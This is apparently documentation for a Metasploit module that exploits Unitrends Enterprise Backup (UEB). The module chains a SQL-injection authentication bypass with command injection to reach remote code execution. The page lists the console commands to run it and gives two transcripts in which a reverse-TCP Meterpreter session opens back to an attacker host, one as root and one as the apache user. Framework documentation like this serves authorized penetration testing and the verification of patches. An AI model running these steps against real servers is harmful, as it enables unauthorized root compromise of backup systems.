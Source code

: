 ## Vulnerable Application

This exploit leverages a sqli vulnerability for authentication bypass,
together with command injection for subsequent RCE.

This exploit has two targets:

  1. Unitrends UEB 9 http api/storage RCE for root privileges
  2. Unitrends UEB < 10.1.0 api/hosts RCE for user (apache) privileges

## Verification Steps

  1. ```use exploit/linux/http/ueb_api_rce```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```set target [#]```
  5. ```exploit```
  6. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.2 on CentOS 6.5 Using api/storage (target 0) root exploit

```
msf5 > use exploit/linux/http/ueb_api_rce 
msf5 exploit(linux/http/ueb_api_rce) > set target 0
target => 0
msf5 exploit(linux/http/ueb_api_rce) > set rhost 1.1.1.1
rhost => 1.1.1.1
msf5 exploit(linux/http/ueb_api_rce) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf5 exploit(linux/http/ueb_api_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:443 - Sending requests to UEB...
[*] Command Stager progress -  19.76% done (164/830 bytes)
[*] Command Stager progress -  39.16% done (325/830 bytes)
[*] Command Stager progress -  56.87% done (472/830 bytes)
[*] Command Stager progress -  74.82% done (621/830 bytes)
[*] Command Stager progress -  92.77% done (770/830 bytes)
[*] Command Stager progress - 110.48% done (917/830 bytes)
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Command Stager progress - 126.63% done (1051/830 bytes)
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43600) at 2018-09-10 20:51:16 -0400

meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Red Hat 6.5 (Linux 2.6.32-573.26.1.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### UEB 9.2 on CentOS 6.5 Using api/hosts (target 1) exploit

```
msf5 > use exploit/linux/http/ueb_api_rce 
msf5 exploit(linux/http/ueb_api_rce) > set target 1
target => 1
msf5 exploit(linux/http/ueb_api_rce) > set rhost 1.1.1.1
rhost => 1.1.1.1
msf5 exploit(linux/http/ueb_api_rce) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf5 exploit(linux/http/ueb_api_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:443 - Sending requests to UEB...
[*] Command Stager progress -  19.76% done (164/830 bytes)
[*] Command Stager progress -  39.16% done (325/830 bytes)
[*] Command Stager progress -  56.87% done (472/830 bytes)
[*] Command Stager progress -  74.82% done (621/830 bytes)
[*] Command Stager progress -  92.77% done (770/830 bytes)
[*] Command Stager progress - 110.48% done (917/830 bytes)
[*] Sending stage (861480 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43515) at 2018-09-10 20:46:24 -0400
[*] Command Stager progress - 126.63% done (1051/830 bytes)

meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Red Hat 6.5 (Linux 2.6.32-573.26.1.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter > shell
Process 25534 created.
Channel 1 created.
whoami
apache
```
